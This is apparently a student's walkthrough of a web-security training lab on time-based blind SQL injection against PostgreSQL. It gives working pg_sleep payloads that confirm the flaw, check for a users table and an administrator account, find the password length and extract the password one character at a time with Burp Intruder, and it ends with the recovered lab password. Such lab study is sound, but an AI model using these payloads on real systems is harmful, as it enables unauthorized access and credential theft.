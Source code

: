 
### Blind SQL injection with time delays and information retrieval : PRACTITIONER

---


> Test the injection assuming PostgreSql.
```
' || pg_sleep(10) --
```
> The response completes after 10 seconds, therefore, it is vulnerable to time delay injection.

> Check for the presence of the 'users' table.
```
' || (SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(-1) END FROM users -- 
```
> See that the response comes after 10 seconds, implying that the users table exists.
> Try a different table such as 'useronsa', and see that the response comes automatically.

> Now checking for the administrator username.
```
' || (SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(-1) END FROM users WHERE username='administrator') -- 
```
> Response comes after 10 seconds, hence, the administrator username exists.

> Next, we enumerate password length.
```
' || (SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(-1) END FROM users WHERE username='administrator' AND LENGTH(password)>20 ) -- 
```
> See that at 20, it sends the response immediately, meaning that it is 20 characters long.
> Can be done via the BURPSUITE INTRUDER spider attack with the placeholder at the length.

> Now, using the BURPSUITE INTRUDER clusterbomb attack, we can obtain the characters of each index in the password.
```
' || (SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(-1) END FROM users WHERE username='administrator' AND  SUBSTRING(password,1,1) ='a') -- 
```

> Similar to [[Lab 12]], brute force the password with the indices from 1-20 and the characters from a-z and 0-9.
> Check the response recieved column, those with the delay have the correct values.

1 - y
2 - v
3 - l
4 - r
5 - z
6 - p
7 - w
8 - k
9 - 9
10 - v
11 - j
12 - 4
13 - a
14 - 6
15 - g
16 - n
17 - 1
18 - j
19 - d
20 - k

> Submit the password and login as admin to complete lab.

---

